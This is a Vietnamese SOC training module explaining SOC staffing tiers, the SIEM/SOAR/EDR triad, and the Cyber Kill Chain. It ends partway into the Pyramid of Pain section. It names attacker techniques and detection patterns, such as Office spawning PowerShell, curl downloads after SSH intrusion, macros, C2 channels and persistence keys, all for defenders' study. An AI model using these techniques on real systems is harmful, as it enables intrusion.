# Tuần 1: Kiến Trúc Vận Hành SOC và Các Khung Bảo Mật Quốc Tế
> **Tài liệu chuẩn hóa toàn diện về mô hình tổ chức SOC, cơ chế phối hợp bộ ba SIEM - SOAR - EDR, và phương pháp luận áp dụng các Framework an ninh hàng đầu: Cyber Kill Chain, Pyramid of Pain, NIST SP 800-61 (Rev 2 và Rev 3) và MITRE ATT&CK Enterprise.**

---

## 1. Vai trò và Mô hình Vận hành của SOC (Security Operations Center)

### 1.1 Phân biệt nền tảng: Event vs Incident

> [!important] Ranh giới giữa Event và Incident
> - **Event (Sự kiện)**: Bất kỳ hành động hay biến đổi trạng thái nào quan sát được trong hệ thống hoặc lưu lượng mạng (VD: user gửi email, firewall chấp nhận kết nối TCP, file được đọc). Event mang tính trung lập, không mặc định chứa yếu tố nguy hại.
> - **Incident (Sự cố an ninh)**: Một hoặc tập hợp các Event có tác động tiêu cực hoặc đe dọa trực tiếp đến tính Bảo mật (Confidentiality), Toàn vẹn (Integrity), hoặc Sẵn sàng (Availability) của hệ thống (CIA Triad).
> - **Nguyên tắc SOC Analyst**: *"Mọi Alert đáng ngờ phải được coi là tiền đề của một Incident tiềm năng cho đến khi phân tích chứng minh điều ngược lại."*








---

### 1.2 SOC là gì? Các mô hình triển khai

**SOC (Security Operations Center)** là trung tâm chỉ huy tập trung kết hợp chặt chẽ giữa **Con người (People) - Quy trình (Process) - Công nghệ (Technology)** nhằm giám sát liên tục (24/7/365), phát hiện sớm, phân tích chuyên sâu và phản ứng kịp thời trước mọi mối đe dọa an ninh mạng.


| Mô hình SOC | Định nghĩa và Đặc điểm | Ưu điểm | Nhược điểm và Thách thức |
| :--- | :--- | :--- | :--- |
| **In-House SOC** | Toàn bộ nhân sự, công nghệ và hạ tầng thuộc sở hữu nội bộ doanh nghiệp. | Hiểu sâu nghiệp vụ nội bộ; kiểm soát hoàn toàn dữ liệu; tùy biến linh hoạt. | Chi phí đầu tư (CapEx/OpEx) cực cao; khó giữ chân nhân tài L3; nguy cơ kiệt sức trực 24/7. |
| **MSSP (Outsourced)** | Thuê ngoài toàn bộ dịch vụ giám sát và phản ứng từ nhà cung cấp chuyên nghiệp. | Triển khai nhanh; chi phí tối ưu; thừa hưởng Threat Intelligence toàn cầu. | Thiếu ngữ cảnh nghiệp vụ đặc thù; lo ngại về tính bảo mật dữ liệu; phụ thuộc SLA. |
| **Hybrid SOC** | Mô hình lai: L1/L2 duy trì nội bộ xử lý nghiệp vụ, L3/Threat Hunting thuê ngoài khi cần. | Cân bằng hoàn hảo giữa chi phí và độ am hiểu ngữ cảnh nội bộ. | Đòi hỏi quy trình bàn giao (Handover) và phân định trách nhiệm cực kỳ chặt chẽ. |

---

### 1.3 Cấu trúc Phân tầng Nhân sự SOC: L1 / L2 / L3





#### Ma trận Chi tiết Nhiệm vụ và KPI các Tầng SOC

| Tiêu chí | L1: Alert Triage | L2: Incident Investigator | L3: Threat Hunter và Forensics |
| :--- | :--- | :--- | :--- |
| **Nhiệm vụ trọng tâm** | Tiếp nhận cảnh báo, phân loại nhanh, sàng lọc False Positive. | Điều tra chuyên sâu, tìm nguyên nhân gốc (Root Cause), cô lập sự cố. | Săn tìm mối đe dọa tiềm ẩn (Threat Hunting), dịch ngược mã độc, phân tích bộ nhớ. |
| **Công cụ chính** | SIEM Console, Ticketing (Jira/ServiceNow), SOAR Light. | EDR Telemetry, SIEM SPL/KQL, Network PCAP (Wireshark), Log Analyzers. | Memory Dump (Volatility), Disassembler (IDA Pro/Ghidra), Sandbox, YARA. |
| **Thời gian phản hồi** | 5 - 15 phút / Alert. | 30 phút - 4 giờ / Incident. | Theo chuyên án (Hours to Weeks). |
| **Chỉ số đo lường (KPI)** | **MTTA** (Mean Time to Acknowledge), Tỉ lệ Alert Fatigue. | **MTTD** (Mean Time to Detect), **MTTC** (Mean Time to Contain). | **MTTR** (Mean Time to Remediate), Số lượng Undetected Threats tìm thấy. |

---

### 1.4 Các vai trò chuyên trách mở rộng trong Modern SOC



1. **Detection Engineer**: Chuyên gia thiết kế, phát triển và tối ưu hóa các Detection Rule (Splunk SPL, Elastic KQL, Sigma Rules, YARA) để lấp đầy các khoảng trống (Gaps) theo ma trận MITRE ATT&CK.
2. **Threat Intelligence Analyst (CTI)**: Thu thập, đánh giá và phân phối tri thức về các nhóm tấn công (Adversary Profile, IoCs, TTPs) từ nguồn OSINT, ISACs và Commercial Feeds để định hướng phòng thủ.
3. **Incident Commander / SOC Manager**: Người chỉ huy tối cao trong các cuộc khủng hoảng an ninh, điều phối toàn bộ nguồn lực kỹ thuật, giao tiếp với Ban Giám đốc, Pháp lý (Legal), Truyền thông (PR) và cơ quan chức năng.

---

## 2. Phân Biệt và Tương Quan Bộ Ba Cốt Lõi: SIEM - SOAR - EDR

> [!tip] Ẩn dụ kinh điển trong SOC Engineering
> - **SIEM** là ==Đôi Mắt== của SOC: Nhìn thấy toàn cảnh bức tranh log trên toàn doanh nghiệp.
> - **SOAR** là ==Đôi Tay== của SOC: Thực thi hành động tự động hóa và điều phối phản ứng với tốc độ phần nghìn giây.
> - **EDR** là ==Kính Hiển Vi== của SOC: Soi chiếu tận tế bào (tiến trình, bộ nhớ, registry) trên từng endpoint.

---

### 2.1 SIEM: Security Information and Event Management



**SIEM** là nền tảng quản lý thông tin và sự kiện an ninh, đóng vai trò "bộ não lưu trữ và tương quan" của mọi hoạt động ghi log.



* **Chuẩn hóa dữ liệu (Normalization)**: Chuyển đổi định dạng log thô đa dạng về cấu trúc trường thống nhất (như CIM trong Splunk, ECS trong Elastic). Ví dụ: `src_ip`, `user`, `dest_port` đều có cùng tên trường dù đến từ Cisco, Palo Alto hay Windows.
* **Tương quan thời gian thực (Correlation Engine)**: Phát hiện các mối liên hệ phức tạp (VD: *IP ngoài quét cổng $\rightarrow$ Đăng nhập SSH thất bại 10 lần $\rightarrow$ Đăng nhập thành công $\rightarrow$ Thực thi `curl` tải file*).

---

### 2.2 SOAR: Security Orchestration, Automation and Response



**SOAR** giải quyết vấn đề lớn nhất của SOC hiện đại: **Alert Fatigue (Quá tải cảnh báo)** và **Thiếu hụt nhân lực** thông qua cơ chế tự động hóa quy trình nghiệp vụ (Playbooks).

* **Orchestration (Điều phối)**: Khả năng kết nối API giữa hàng chục giải pháp bảo mật khác nhau (SIEM, Firewall, EDR, Email Gateway, Threat Intel Platform).
* **Automation (Tự động hóa)**: Thực thi chuỗi tác vụ lặp lại mà không cần sự can thiệp của con người (Enrichment IP qua VirusTotal, Sandbox file đính kèm, Query Active Directory).
* **Response (Phản ứng)**: Tự động khóa tài khoản user bị lộ, block IP độc hại trên Firewall biên, hoặc cách ly máy tính bị nhiễm mã độc.

---

### 2.3 EDR: Endpoint Detection and Response



**EDR** là giải pháp chuyên sâu giám sát toàn bộ hoạt động bên trong hệ điều hành của các máy chủ và máy trạm:
* **Ghi nhận Process Lineage (Cây tiến trình)**: Theo dõi tiến trình cha - con (`ParentProcessId` $\rightarrow$ `ProcessId`). Phát hiện các bất thường kinh điển như `winword.exe` gọi `cmd.exe` hoặc `powershell.exe`.
* **Tích hợp AMSI (Antimalware Scan Interface)**: Giúp soi chiếu và giải mã các đoạn mã PowerShell bị làm rối (Obfuscation/Base64) trực tiếp trong bộ nhớ trước khi thực thi.
* **Live Response và Isolation**: Cho phép Analyst truy cập shell từ xa vào endpoint để thu thập chứng cứ và ngắt kết nối mạng (Network Isolation) để ngăn mã độc lây lan.

---

### 2.4 Bảng Đối Chiếu So Sánh Toàn Diện SIEM vs SOAR vs EDR



| Tiêu chí so sánh | SIEM (Security Info và Event) | SOAR (Orchestration và Auto) | EDR (Endpoint Detection) |
| :--- | :--- | :--- | :--- |
| **Phạm vi giám sát** | Toàn bộ hạ tầng mạng, server, cloud, app. | Quy trình phản ứng và điều phối liên công cụ. | Cực sâu trên Endpoint (Process, File, Reg, RAM). |
| **Loại dữ liệu xử lý** | Log dữ liệu có cấu trúc/bán cấu trúc. | Alerts, Tickets, API Payloads, Threat Feeds. | Telemetry cấp độ nhân (Kernel events, API calls). |
| **Khả năng hành động** | Thụ động (Chỉ cảnh báo và hiển thị). | Tự động hóa cao (Chạy Playbook API). | Chủ động trên Endpoint (Kill process, Isolate). |
| **Điểm mù (Blind Spots)**| Thiếu chi tiết chuyên sâu trong bộ nhớ máy. | Không tự sinh cảnh báo (Phụ thuộc SIEM/EDR). | Mù lưu lượng mạng diện rộng và Cloud audit log. |

---

### 2.5 Luồng Phối Hợp Tác Chiến Hiện Đại (The Modern SOC Triad Flow)





---

## 3. Các Khung Phương Pháp Luận An Ninh Quốc Tế (Security Frameworks)

---

### 3.1 Cyber Kill Chain (Lockheed Martin)

**Cyber Kill Chain** (phát triển năm 2011) mô hình hóa cuộc tấn công mạng có chủ đích theo 7 giai đoạn liên tiếp. Triết lý cốt lõi: *"Bẻ gãy bất kỳ một mắt xích nào trong chuỗi, toàn bộ chiến dịch tấn công của đối phương sẽ thất bại."*






#### Bảng Phân Tích 7 Giai Đoạn Cyber Kill Chain và Đối Sách Phòng Thủ

| Giai đoạn | Hành vi kỹ thuật của Attacker | Biện pháp và Công nghệ Phòng ngự của SOC |
| :--- | :--- | :--- |
| **1. Reconnaissance** | Thu thập thông tin qua OSINT (LinkedIn, Shodan), Port Scan, DNS Recon. | Giảm bề mặt tấn công (Attack Surface Reduction), ẩn Service Banner, WAF. |
| **2. Weaponization** | Tạo payload mã độc, nhúng Macro vào Office, cấu hình C2 Beacon. | Giai đoạn chuẩn bị trên máy Attacker $\rightarrow$ SOC không can thiệp trực tiếp. |
| **3. Delivery** | Phát tán payload qua Phishing Email, USB drop, Watering Hole attack. | Secure Email Gateway (SEG), DMARC/SPF/DKIM, Web Proxy URL Filter. |
| **4. Exploitation** | Lợi dụng lỗ hổng phần mềm hoặc lừa người dùng bật Macro để thực thi code. | Patch Management, EDR Exploit Prevention, Antivirus Macro Blocking. |
| **5. Installation** | Thiết lập Persistence (Registry Run Key, Scheduled Task, Service, DLL Hijack). | Giám sát FIM (File Integrity), Sysmon Event 1 và 11, Least Privilege. |
| **6. Command và Control**| Thiết lập kênh liên lạc C2 về máy chủ điều khiển (DNS Tunnel, SOCKS, HTTPS). | DNS Sinkholing, IDS/IPS JA3 Fingerprint, Firewall Egress Filtering. |
| **7. Actions on Objectives**| Đánh cắp dữ liệu (Exfiltration), Mã hóa dữ liệu (Ransomware), Phá hoại hệ thống. | DLP (Data Loss Prevention), Immutable Offline Backup, EDR Anti-Ransomware. |

---

### 3.2 Pyramid of Pain (Kim Tự Tháp Nỗi Đau: David Bianco)

**Pyramid of Pain** (2013) trả lời câu hỏi chiến lược: *"Khi Defender phát hiện và vô hiệu hóa một chỉ số an ninh, Attacker sẽ phải chịu bao nhiêu 'nỗi đau' (chi phí, thời gian, công sức) để tiếp tục tấn công?"*

